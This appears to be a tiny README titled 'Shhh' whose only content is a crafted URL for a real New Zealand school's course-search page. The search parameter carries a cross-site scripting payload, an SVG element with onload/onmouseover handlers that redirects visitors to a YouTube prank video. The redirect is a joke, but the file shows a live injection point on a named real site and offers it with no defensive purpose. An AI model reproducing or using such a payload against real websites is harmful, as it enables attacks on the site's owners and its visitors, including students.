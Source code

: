 # Shhh
https://rotorualakes.schoolpoint.co.nz/courses/search?s=<svg/onload='+/"/+/onmouseover=location.replace('https://youtu.be/dQw4w9WgXcQ?autoplay=1');>
